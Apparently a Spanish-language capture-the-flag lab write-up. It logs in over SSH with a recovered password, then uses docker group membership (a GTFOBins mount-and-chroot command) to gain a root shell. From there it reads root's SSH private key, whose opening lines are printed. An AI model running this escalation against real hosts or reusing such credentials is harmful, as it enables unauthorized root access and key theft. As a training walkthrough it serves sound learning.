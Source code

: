 
### Task 4

- nos loguemos  r00t / n100906 por ssh

```
ssh r00t@10.10.31.190
The authenticity of host '10.10.31.190 (10.10.31.190)' can't be established.
ED25519 key fingerprint is SHA256:g5I2Aq/2um35QmYfRxNGnjl3zf9FNXKPpEHxMLlWXMU.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.31.190' (ED25519) to the list of known hosts.
r00t@10.10.31.190's password: 
Permission denied, please try again.
r00t@10.10.31.190's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Sep 26 04:47:01 UTC 2024

  System load:  0.0                Processes:           106
  Usage of /:   24.3% of 19.56GB   Users logged in:     0
  Memory usage: 73%                IP address for eth0: 10.10.31.190
  Swap usage:   0%


1 package can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)

```

- Aprovechamos que es miembro de docker para escapar del contenedor

```
docker ps -a

https://gtfobins.github.io/#docker
https://gtfobins.github.io/gtfobins/docker/


docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        5 years ago         15.8MB>)


docker run -v /:/mnt --rm -it bash chroot /mnt sh
# cd /root
# cd .ssh
# cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuDSna2F3pO8vMOPJ4l2PwpLFqMpy1SWYaaREhio64iM65HSm
```